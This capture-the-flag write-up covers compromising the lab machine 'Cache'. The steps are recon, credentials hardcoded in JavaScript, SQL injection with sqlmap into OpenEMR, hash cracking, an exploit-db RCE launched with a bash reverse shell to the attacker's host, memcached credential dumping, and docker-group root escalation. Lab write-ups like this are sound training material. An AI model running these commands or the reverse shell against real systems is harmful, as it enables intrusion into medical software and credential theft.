

Cache is a Linux machine. The ip of the box is 10.10.10.188.

# Recon

I start with *nmap* `nmap -sC -Sv -oA nmap/cache 10.10.10.188`
> sC: use the default scripts of nmap
>
> sV: tries to define the service and the version running behind the scanned port
>
> oA: Save the output of nmap


And I found two services:
- *ssh*
- *webserver apache*

On port 80 we got this homepage (nothing interesting).


I tried with *gobuster*

`gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10 -u 10.10.10.188 -o enum.txt`

> dir: mode
>
> w: dictionary
>
> t: # threads
>
> u: host
>
> o: output

and found these directories:
> /javascript (Status: 301)
>
> /jquery (Status: 301)

Only jquery is accessible and there is a file called functionality.js.


```js
$(function(){

    var error_correctPassword = false;
    var error_username = false;
    
    function checkCorrectPassword(){
        var Password = $("#password").val();
        if(Password != 'H@v3_fun'){
            alert("Password didn't Match");
            error_correctPassword = true;
        }
    }
    function checkCorrectUsername(){
        var Username = $("#username").val();
        if(Username != "ash"){
            alert("Username didn't Match");
            error_username = true;
        }
    }
    $("#loginform").submit(function(event) {
        /* Act on the event */
        error_correctPassword = false;
         checkCorrectPassword();
         error_username = false;
         checkCorrectUsername();


        if(error_correctPassword == false && error_username ==false){
            return true;
        }
        else{
            return false;
        }
    });
    
});
```

In this file we find the credentials for the user ash.
>**user:ash and password:H@v3_fun**.

I tried to login through the login page at http://10.10.10.188/login.html and got this:


I go back to http://10.10.10.188/author.html


and find some useful information. Specifically 
> Check out his other projects like cache: HSM(Hospital Management System)

so I decide to try adding `hms.htb` in the hosts file, in this way I was able to find a new login portal.


# User

OpenEMR is a medical practice management software and there is several security issues([Vulnerability Report](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf)) and a exploit [OpenEMR < 5.0.1 — (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/45161) in exploitdb.


Then I retrieved the credentials using a sqli at http://hms.htb/portal/add_edit_event_user.php?eid=1 (Vulnerability report section  3.2).

- Take db names: `sqlmap -r sqli.req --dbs --batch`
- Take tables name: `sqlmap -r sqli.req -D openemr --tables`
- Dump credentials: `sqlmap -r sqli.req -D openemr -T users_secure --dump`


- crack hash: ` john --wordlist=rockyou.txt db_hash.txt`


and got the password **xxxxxx** for the user **openmr_admin**.

Once I recovered the credentials I was able to use the exploit to get a reverse shell
`python2 45161 -u openmr_admin -p xxxxxx -c 'bash -i >&/dev/tcp/10.10.14.150/8080 0>&1' http://hms.htb`


 upgrade shell `python3 -c "import pty;pty.spawn('/bin/bash')"` and change user
 `su ash`
 
 got flag
 
 


# Root

The next step was to carry out privesc.

There is a memcached server on port 11211


after some enumeration on memcached server([Exploit](https://www.hackingarticles.in/penetration-testing-on-memcached-server/))

Check items



Dump the keys


Get credential


I found the credentials for the user **luffy**.
> user:**luffy** passowrd:**0n3_p1ec3**

I can now log in as a luffy user.

I check the user groups and find that the user luffy belongs to the docker group.


So I searched privsc from a docker container and found on [GTObins](https://gtfobins.github.io/) an exploit 

`docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash`


